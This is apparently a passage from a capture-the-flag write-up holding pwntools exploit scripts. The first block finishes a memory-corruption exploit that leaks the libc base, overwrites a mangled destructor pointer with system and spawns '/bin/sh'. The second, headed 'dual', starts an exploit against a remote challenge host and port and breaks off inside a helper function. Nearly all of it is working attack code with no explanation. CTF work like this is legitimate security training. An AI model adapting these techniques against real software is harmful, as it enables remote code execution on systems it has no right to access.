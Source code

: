 ```python=
  payload = payload.ljust(0x100,"A")
  payload += p64(0) + p64(0x81) + p64(rol(read_n,0x11)) +  p64(0x404100+0x200) + p64(0x434118) + p64(0x404110+0x200)+ p64(0x21)*0x10
  r.sendline(payload)
  r.recvuntil(":Timeout") # Waiting for timeout to trigger exit() & use tls_dtor_list to control flow
  libc = u64(r.recv(6).ljust(8,"\x00")) - 0x813d0
  print("libc = {}".format(hex(libc)))
  system = 0x4f550 + libc
  payload = p64(0) + p64(0x51) + p64(rol(system,0x11)) + p64(0x404328) + p64(0x434120) + "/bin/sh\x00"

  r.sendline(payload)

  r.interactive()
```

### dual

```python=
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import sys
import time
import random
host = '13.231.226.137'
port = 9573

binary = "./dual"
context.binary = binary
elf = ELF(binary)
try:
  libc = ELF("./libc.so.6")
  log.success("libc load success")
  system_off = libc.symbols.system
  log.success("system_off = "+hex(system_off))
except:
  log.failure("libc not found !")

def create_note(idd):
  r.recvuntil("op>\n")
  r.sendline("1")
  r.recvuntil("pred_id>\n")
  r.sendline(str(idd))

def connect_note(idd,idd2):
  r.recvuntil("op>\n")
  r.sendline("2")
  r.recvuntil("pred_id>\n")
  r.sendline(str(idd))
  r.recvuntil("succ_id>\n")
  r.sendline(str(idd2))

def disconnect_node(idd,idd2):
  r.recvuntil("op>\n")
  r.sendline("3")
  r.recvuntil("pred_id>\n")
  r.sendline(str(idd))
  r.recvuntil("succ_id>\n")
  r.sendline(str(idd2))

def write_text(index,text):
```